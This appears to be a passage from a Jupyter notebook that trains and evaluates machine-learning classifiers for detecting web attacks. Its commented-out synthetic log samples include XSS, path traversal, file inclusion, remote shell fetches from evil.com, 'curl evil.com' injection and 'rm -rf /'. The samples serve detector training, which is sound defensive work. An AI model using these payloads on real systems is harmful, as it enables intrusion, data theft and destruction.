    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:04:18","source_ip":"192.168.1.14","http_method":"POST","url":"/comment","query_parameters":"msg='><script>alert(1)</script>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:05:20","source_ip":"192.168.1.15","http_method":"GET","url":"/page","query_parameters":"q=<iframe src=javascript:alert(1)>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:06:22","source_ip":"192.168.1.16","http_method":"POST","url":"/form","query_parameters":"input=<body onload=alert(1)>","status_code":200,"response_size":1100,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:07:24","source_ip":"192.168.1.17","http_method":"GET","url":"/search","query_parameters":"q=<math><mi//xlink:href=javascript:alert(1)>","status_code":200,"response_size":900,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:08:26","source_ip":"192.168.1.18","http_method":"POST","url":"/chat","query_parameters":"msg=<script src=evil.js></script>","status_code":200,"response_size":950,"referrer":"-","user_agent":"Chrome"},
    # {"attack_type_true":"xss","timestamp":"2025-04-03 12:09:28","source_ip":"192.168.1.19","http_method":"POST","url":"/comment","query_parameters":"msg=<img src=x onerror=fetch('http://evil.io')>","status_code":200,"response_size":1000,"referrer":"-","user_agent":"Firefox"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:00:10","source_ip":"10.0.0.10","http_method":"GET","url":"/file","query_parameters":"path=../../etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:01:12","source_ip":"10.0.0.11","http_method":"GET","url":"/download","query_parameters":"file=..%2f..%2fwindows/win.ini","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:02:14","source_ip":"10.0.0.12","http_method":"GET","url":"/static","query_parameters":"img=....//....//etc/passwd","status_code":400,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:03:16","source_ip":"10.0.0.13","http_method":"GET","url":"/view","query_parameters":"file=%252e%252e%252f%252e%252e%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:04:18","source_ip":"10.0.0.14","http_method":"GET","url":"/api/file","query_parameters":"path=/../../../../root/.bashrc","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:05:20","source_ip":"10.0.0.15","http_method":"GET","url":"/images","query_parameters":"file=..\\..\\windows\\system32\\drivers\\etc\\hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:06:22","source_ip":"10.0.0.16","http_method":"GET","url":"/static","query_parameters":"file=....//....//....//etc/shadow","status_code":403,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:07:24","source_ip":"10.0.0.17","http_method":"GET","url":"/download","query_parameters":"file=%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:08:26","source_ip":"10.0.0.18","http_method":"GET","url":"/file","query_parameters":"path=..%252f..%252f..%252fetc/passwd","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"directory_traversal","timestamp":"2025-04-04 13:09:28","source_ip":"10.0.0.19","http_method":"GET","url":"/view","query_parameters":"file=../../../etc/hosts","status_code":403,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:00:10","source_ip":"172.20.0.10","http_method":"GET","url":"/index","query_parameters":"page=/etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:01:12","source_ip":"172.20.0.11","http_method":"GET","url":"/view","query_parameters":"file=/proc/self/environ","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:02:14","source_ip":"172.20.0.12","http_method":"GET","url":"/load","query_parameters":"file=../../../../etc/shadow","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:03:16","source_ip":"172.20.0.13","http_method":"GET","url":"/page","query_parameters":"template=php://filter/convert.base64-encode/resource=index.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"Mozilla"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:04:18","source_ip":"172.20.0.14","http_method":"GET","url":"/include","query_parameters":"file=../../boot.ini","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:05:20","source_ip":"172.20.0.15","http_method":"GET","url":"/view","query_parameters":"page=/var/log/apache2/access.log","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:06:22","source_ip":"172.20.0.16","http_method":"GET","url":"/file","query_parameters":"file=....//....//etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:07:24","source_ip":"172.20.0.17","http_method":"GET","url":"/view","query_parameters":"file=%2e%2e%2f%2e%2e%2fetc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:08:26","source_ip":"172.20.0.18","http_method":"GET","url":"/load","query_parameters":"file=/dev/null;id","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"lfi","timestamp":"2025-04-05 14:09:28","source_ip":"172.20.0.19","http_method":"GET","url":"/page","query_parameters":"file=/etc/hosts%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:00:10","source_ip":"192.168.10.10","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/shell.txt","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:01:12","source_ip":"192.168.10.11","http_method":"GET","url":"/load","query_parameters":"template=http://attacker.net/x.php","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:02:14","source_ip":"192.168.10.12","http_method":"GET","url":"/view","query_parameters":"page=http://evil.io/payload","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:03:16","source_ip":"192.168.10.13","http_method":"GET","url":"/include","query_parameters":"file=https://bad.site/shell.php%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:04:18","source_ip":"192.168.10.14","http_method":"GET","url":"/index","query_parameters":"module=http://evil.com/backdoor","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:05:20","source_ip":"192.168.10.15","http_method":"GET","url":"/view","query_parameters":"file=http://10.0.0.5/shell","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:06:22","source_ip":"192.168.10.16","http_method":"GET","url":"/load","query_parameters":"file=http://evil.com/x.txt|bash","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:07:24","source_ip":"192.168.10.17","http_method":"GET","url":"/page","query_parameters":"file=http://evil.com/%00","status_code":500,"response_size":0,"referrer":"-","user_agent":"Python"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:08:26","source_ip":"192.168.10.18","http_method":"GET","url":"/include","query_parameters":"file=http://evil.net/shell.js","status_code":500,"response_size":0,"referrer":"-","user_agent":"wget"},
    # {"attack_type_true":"rfi","timestamp":"2025-04-06 15:09:28","source_ip":"192.168.10.19","http_method":"GET","url":"/index","query_parameters":"file=http://evil.com/?cmd=ls","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # # ================= COMMAND INJECTION =================
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:01","source_ip":"192.0.2.150","http_method":"POST","url":"/ping","query_parameters":"host=8.8.8.8;ls","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:11","source_ip":"192.0.2.150","http_method":"POST","url":"/api","query_parameters":"cmd=whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:21","source_ip":"192.0.2.150","http_method":"POST","url":"/run","query_parameters":"cmd=ping 127.0.0.1 && id","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:31","source_ip":"192.0.2.151","http_method":"POST","url":"/exec","query_parameters":"cmd=;cat /etc/passwd","status_code":500,"response_size":0,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:41","source_ip":"192.0.2.151","http_method":"POST","url":"/system","query_parameters":"cmd=rm -rf /","status_code":500,"response_size":0,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:00:51","source_ip":"192.0.2.152","http_method":"POST","url":"/ping","query_parameters":"host=127.0.0.1|whoami","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:01","source_ip":"192.0.2.152","http_method":"POST","url":"/api","query_parameters":"cmd=`id`","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:11","source_ip":"192.0.2.153","http_method":"POST","url":"/run","query_parameters":"cmd=ping;curl evil.com","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:21","source_ip":"192.0.2.153","http_method":"POST","url":"/exec","query_parameters":"cmd=$(whoami)","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    # {"attack_type_true":"command_injection","timestamp":"2025-03-10 14:01:31","source_ip":"192.0.2.154","http_method":"POST","url":"/system","query_parameters":"cmd=ps aux","status_code":200,"response_size":300,"referrer":"-","user_agent":"bash"},
    
    # ================= BRUTEFORCE =================
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:01","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:11","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=password","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:21","source_ip":"203.0.113.40","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:31","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=12345","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:41","source_ip":"203.0.113.41","http_method":"POST","url":"/wp-login.php","query_parameters":"log=admin&pwd=qwerty","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:00:51","source_ip":"203.0.113.42","http_method":"POST","url":"/admin","query_parameters":"user=root&pass=root","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:01","source_ip":"203.0.113.42","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=welcome","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:11","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=letmein","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:21","source_ip":"203.0.113.43","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=admin123","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    # {"attack_type_true":"bruteforce","timestamp":"2025-03-10 15:01:31","source_ip":"203.0.113.44","http_method":"POST","url":"/login","query_parameters":"user=admin&pass=123456789","status_code":401,"response_size":500,"referrer":"-","user_agent":"Hydra"},
    
    # # ================= BENIGN SUSPICIOUS =================
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:01","source_ip":"192.0.2.200","http_method":"GET","url":"/admin","query_parameters":"debug=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"python-requests"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:11","source_ip":"192.0.2.200","http_method":"GET","url":"/test","query_parameters":"probe=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:21","source_ip":"192.0.2.201","http_method":"GET","url":"/admin/panel","query_parameters":"check=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:31","source_ip":"192.0.2.201","http_method":"GET","url":"/status","query_parameters":"debug=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:41","source_ip":"192.0.2.202","http_method":"GET","url":"/login","query_parameters":"remember=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:00:51","source_ip":"192.0.2.202","http_method":"GET","url":"/probe","query_parameters":"scan=true","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:01","source_ip":"192.0.2.203","http_method":"GET","url":"/api","query_parameters":"test=1","status_code":200,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:11","source_ip":"192.0.2.203","http_method":"GET","url":"/health","query_parameters":"","status_code":200,"response_size":300,"referrer":"-","user_agent":"python"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:21","source_ip":"192.0.2.204","http_method":"GET","url":"/check","query_parameters":"debug=0","status_code":403,"response_size":300,"referrer":"-","user_agent":"curl"},
    {"attack_type_true":"benign_suspicious","timestamp":"2025-03-10 16:01:31","source_ip":"192.0.2.204","http_method":"GET","url":"/admin","query_parameters":"try=1","status_code":403,"response_size":300,"referrer":"-","user_agent":"bot"}

]


df_inference_raw = pd.DataFrame([
    {k: v for k, v in s.items() if k != "attack_type_true"}
    for s in INFERENCE_SAMPLES
])
true_labels = [s["attack_type_true"] for s in INFERENCE_SAMPLES]

print(f"✅ Generated {len(df_inference_raw)} synthetic inference samples.")
display(df_inference_raw[["http_method", "url", "query_parameters", "status_code"]].head(9))


✅ Generated 10 synthetic inference samples.


,http_method,url,query_parameters,status_code
0,GET,/admin,debug=true,403
1,GET,/test,probe=1,403
2,GET,/admin/panel,check=1,403
3,GET,/status,debug=1,200
4,GET,/login,remember=1,200
5,GET,/probe,scan=true,403
6,GET,/api,test=1,200
7,GET,/health,,200
8,GET,/check,debug=0,403


In [71]:
# ── Load Saved Pipeline & Run Inference ──────────────────────────────────────

print("⏳ Loading saved pipeline from disk...")

rf_pipeline = joblib.load(MODEL_SAVE_PATH)

print(f"✅ Pipeline loaded: {MODEL_SAVE_PATH}")

# ── Predict ───────────────────────────────────────────────────────────────────

predictions = rf_pipeline.predict(df_inference_raw)
probabilities = rf_pipeline.predict_proba(df_inference_raw)

predicted_names = [CLASS_NAMES[p] for p in predictions]
confidence = probabilities.max(axis=1)

# ── Build results DataFrame ───────────────────────────────────────────────────

results_df = pd.DataFrame({
    "True Class": true_labels,
    "Predicted Class": predicted_names,
    "Confidence %": (confidence * 100).round(2),
    "Correct": ["✅" if t == p else "❌" for t, p in zip(true_labels, predicted_names)],
    "URL": df_inference_raw["url"].values,
    "Query (truncated)": df_inference_raw["query_parameters"].str[:55].values,
})

print("\n🛡️ Real-World Inference Results (Random Forest)")
print("=" * 80)
display(results_df)

correct = sum(1 for t, p in zip(true_labels, predicted_names) if t == p)

print(
    f"\nDemo Accuracy: {correct}/{len(true_labels)} "
    f"({correct/len(true_labels)*100:.0f}%)"
)

⏳ Loading saved pipeline from disk...


INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)
INFO: [Cleaner] Cleaning complete. Output shape: (10, 9)


✅ Pipeline loaded: ThreatDetectionPipeline.pkl

🛡️ Real-World Inference Results (Random Forest)


,True Class,Predicted Class,Confidence %,Correct,URL,Query (truncated)
0,benign_suspicious,benign_suspicious,96.8700,✅,/admin,debug=true
1,benign_suspicious,normal,99.9800,❌,/test,probe=1
2,benign_suspicious,normal,99.9300,❌,/admin/panel,check=1
3,benign_suspicious,normal,99.9900,❌,/status,debug=1
4,benign_suspicious,normal,90.8800,❌,/login,remember=1
5,benign_suspicious,normal,99.8900,❌,/probe,scan=true
6,benign_suspicious,normal,100.0000,❌,/api,test=1
7,benign_suspicious,normal,100.0000,❌,/health,
8,benign_suspicious,normal,99.9800,❌,/check,debug=0
9,benign_suspicious,normal,98.2300,❌,/admin,try=1



Demo Accuracy: 1/10 (10%)


In [72]:
print('jj')

jj


In [73]:
import numpy as np
from sklearn.metrics import accuracy_score, precision_score, recall_score, f1_score, confusion_matrix, classification_report

class ThreatEnsemble:
    def __init__(self, xgb_model, rf_model, lgbm_model, weights=(0.4, 0.3, 0.3)):
        self.xgb = xgb_model
        self.rf = rf_model
        self.lgbm = lgbm_model
        self.w_xgb, self.w_rf, self.w_lgbm = weights

    def predict_proba(self, X):
        proba_xgb = self.xgb.predict_proba(X)
        proba_rf = self.rf.predict_proba(X)
        proba_lgbm = self.lgbm.predict_proba(X)

        final_proba = (
            self.w_xgb * proba_xgb +
            self.w_rf * proba_rf +
            self.w_lgbm * proba_lgbm
        )

        return final_proba

    def predict(self, X):
        proba = self.predict_proba(X)
        return np.argmax(proba, axis=1)

In [74]:
ensemble_model = ThreatEnsemble(
    xgb_model=threat_pipeline,
    rf_model=rf_pipeline,
    lgbm_model=lgbm_pipeline,
    weights=(0.7, 0.15, 0.15)  # you can tune later
)

In [75]:
y_pred = ensemble_model.predict(df_test_raw)

acc     = accuracy_score(y_test_raw, y_pred)
prec    = precision_score(y_test_raw, y_pred, average="weighted", zero_division=0)
rec     = recall_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_w    = f1_score(y_test_raw, y_pred, average="weighted", zero_division=0)
f1_mac  = f1_score(y_test_raw, y_pred, average="macro", zero_division=0)

print("="*60)
print("          ENSEMBLE MODEL RESULTS")
print("="*60)
print(f"Accuracy             : {acc:.4f}")
print(f"Precision (weighted) : {prec:.4f}")
print(f"Recall (weighted)    : {rec:.4f}")
print(f"F1 Score (weighted)  : {f1_w:.4f}")
print(f"F1 Score (macro)     : {f1_mac:.4f}")
print("="*60)

print("\nClassification Report:")
print(classification_report(y_test_raw, y_pred, target_names=CLASS_NAMES))

INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)
INFO: [Cleaner] Cleaning complete. Output shape: (15000, 10)


          ENSEMBLE MODEL RESULTS
Accuracy             : 0.9403
Precision (weighted) : 0.9411
Recall (weighted)    : 0.9403
F1 Score (weighted)  : 0.9405
F1 Score (macro)     : 0.9443

Classification Report:
                     precision    recall  f1-score   support

  benign_suspicious       0.89      0.87      0.88      2250
         bruteforce       0.93      0.99      0.96       600
  command_injection       0.79      0.89      0.84       600
directory_traversal       0.99      0.97      0.98      1050
                lfi       0.91      0.95      0.93      1200
             normal       0.94      0.92      0.93      5250
                rfi       0.99      0.99      0.99      1050
      sql_injection       0.99      0.98      0.98      1500
                xss       1.00      1.00      1.00      1500

           accuracy                           0.94     15000
          macro avg       0.94      0.95      0.94     15000
       weighted avg       0.94      0.94      0.94     1500

[[1966    5   15    0    4  260    0    0    0]
 [   0  595    1    0    1    3    0    0    0]
 [   9    1  531    2   16   35    1    5    0]
 [   0    0    4 1016   29    0    0    1    0]
 [   3    4   11    6 1146   22    8    0    0]
 [ 224   32   93    0   49 4843    0    9    0]
 [   0    0    0    0    6    0 1044    0    0]
 [   3    1   13    4    2   13    0 1464    0]
 [   0    0    0    0    0    0    0    0 1500]]




In [76]:
cm = confusion_matrix(y_test_raw, y_pred)
print(cm)

# Safe normalization (avoids division by zero)
cm_norm = cm.astype(float) / np.clip(cm.sum(axis=1, keepdims=True), 1, None)

fig, axes = plt.subplots(1, 2, figsize=(18, 7))
fig.suptitle("Ensemble — Confusion Matrix", fontsize=14, fontweight="bold")

# ── Absolute counts ───────────────────────────────────────────────────────────
ax = axes[0]
sns.heatmap(
    cm,
    annot=True,
    fmt="d",
    cmap="Blues",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    ax=ax,
    cbar=True
)
ax.set_title("Absolute Counts")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

# ── Normalized (recall per class) ────────────────────────────────────────────
ax = axes[1]
sns.heatmap(
    cm_norm,
    annot=True,
    fmt=".2%",
    cmap="RdYlGn",
    xticklabels=CLASS_NAMES,
    yticklabels=CLASS_NAMES,
    linewidths=0.5,
    vmin=0,
    vmax=1,
    ax=ax,
    cbar=True
)
ax.set_title("Row-Normalized (Recall per Class)")
ax.set_xlabel("Predicted Class")
ax.set_ylabel("True Class")
ax.tick_params(axis="x", rotation=30)
ax.tick_params(axis="y", rotation=0)

plt.tight_layout()
plt.savefig(r"D:\c4\results\lgbm_confusion_matrix.png", bbox_inches="tight", dpi=110)

plt.show()

[[2018    4   28    0    9  191    0    0    0]
 [   0  595    2    0    1    2    0    0    0]
 [   5    1  539    2   17   29    1    6    0]
 [   0    0    4 1016   30    0    0    0    0]
 [   1    4   14    5 1151   16    9    0    0]
 [ 436   33  189    0   71 4509    0   12    0]
 [   0    0    0    0    6    0 1044    0    0]
 [   6    1   14    3    2    9    0 1465    0]
 [   0    0    0    0    0    0    0    0 1500]]


